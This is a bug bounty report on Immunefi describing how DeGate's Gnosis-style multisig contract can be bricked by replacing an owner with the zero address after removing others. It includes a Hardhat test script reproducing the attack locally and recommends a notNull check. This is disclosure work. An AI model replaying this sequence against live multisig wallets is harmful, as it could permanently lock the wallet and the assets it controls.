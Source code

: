 
# Multisig Contract onChain can be bricked

Submitted on Mon Dec 04 2023 06:26:36 GMT-0400 (Atlantic Standard Time) by @copperscrewer for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26520

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x2028834B2c0A36A918c10937EeA71BE4f932da52#code

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
## Bug Description
The Multisig contract, on a series of actions can be bricked. As it cannot execute anymore actions and fails to satisfy an Invariant ( length of owners is equal or greater than required signatures)

## Impact
Multisig cannot execute any transaction, cannot add, remove Owners as the contract becomes unusable

## Risk Breakdown
Difficulty to Exploit: Easy
Weakness:
CVSS2 Score:6.9

## Recommendation
Add a notNull modifier to replaceOwner


        
## Proof of concept
steps to reproduce
As we are testing the Gnosis Multisig, that works independently to the L2 contracts, we can test just this contract while replicating the Owners and required state.

Create an empty folder.

npx hardhat init


To create a project with directories like contracts, test

copy paste contract code from https://etherscan.io/address/0x2028834B2c0A36A918c10937EeA71BE4f932da52?utm_source=immunefi#code

to gnosis.sol in contracts folder

change compiler version or directly paste this in module exports in hardhat config.js This is done since the Gnosis multisig contract uses an old version of solidity  solidity: { compilers: [ { version: "0.4.22", }, { version: "0.8.19", settings: {}, }, ], },

paste following test script in test folder and run 
npx hardhat test test/gnosis.js\

```
const {ethers} = require("hardhat")
const {expect, assert} = require("chai")

var gnosis

let owners, deployer

describe("ReplaceOwner bug", function()
{
    before(async function(){

        owners = (await ethers.getSigners()).slice(0,6)
        deployer = owners[0]
        
    })

    context("Setup Contract (4/6 multisig) ", () =>    {

        it("Should deploy with 6 owners, 4 required ", async function(){

            let gnosisF = await ethers.getContractFactory("MultiSigWallet", deployer)
            gnosis = await gnosisF.deploy(
                owners,
                4
            );

            expect(await gnosis.required()).to.eq(4);
            expect( (await gnosis.getOwners() ).length).to.eq(6);

        })

    })

    context("Bug proof of concept", () => {
        
        it("Should remove two owners", async function(){

            let ABI = [
                "function transfer(address to, uint amount)",
                "function removeOwner(address owner)"
            ];
    
            let iface = new ethers.Interface(ABI);
            data = iface.encodeFunctionData("removeOwner", [ owners[owners.length - 1].address, ] )

            //one owner proposes an action through submitTransaction and the others
            //adhere through confirmTransaction

            // remove one owner [CODE START]
            await gnosis.submitTransaction(
                await gnosis.getAddress(), //destination
                0, //value
                data //data
                )
            
            for( i=1; i<=3; i++)
            {
                
                signer = owners[i];
                await gnosis.connect(signer).confirmTransaction(
                    0 //transaction id
                );
                
            }
            
            
            expect((await gnosis.getOwners()).length).to.eq(5)
            // remove one owner [CODE END]

            // remove another owner [CODE START]
            data = iface.encodeFunctionData("removeOwner", [ owners[owners.length - 2].address, ] )
            await gnosis.submitTransaction(
                await gnosis.getAddress(), //destination
                0, //value
                data //data
                )
            
            for( i=1; i<=3; i++)
            {
                
                signer = owners[i];
                await gnosis.connect(signer).confirmTransaction(
                    1 //transaction id
                );
                
            }
            
            
            expect((await gnosis.getOwners()).length).to.eq(4)
            // remove another owner [CODE END]
            
            
        })

        it("Should replace an Owner with zero address", async function(){
            let ABI = [
                "function transfer(address to, uint amount)",
                "function replaceOwner(address owner, address newOwner)"
            ];
    
            let iface = new ethers.Interface(ABI);
            
            data = iface.encodeFunctionData("replaceOwner", [ owners[2].address, '0x0000000000000000000000000000000000000000'] )
            await gnosis.submitTransaction(
                await gnosis.getAddress(), //destination
                0, //value
                data //data
                )
            
            for( i=1; i<=3; i++)
            {                
                signer = owners[i];
                await gnosis.connect(signer).confirmTransaction(
                    2 //transaction id
                );
                
            }
            

            expect(await gnosis.required()).to.eq(4);
            expect((await gnosis.getOwners()).length).to.eq(4);          

            console.log("Owners are ", await gnosis.getOwners() );
            console.log("Required amount of signatures are ", await gnosis.required() );
        })

    })

})
```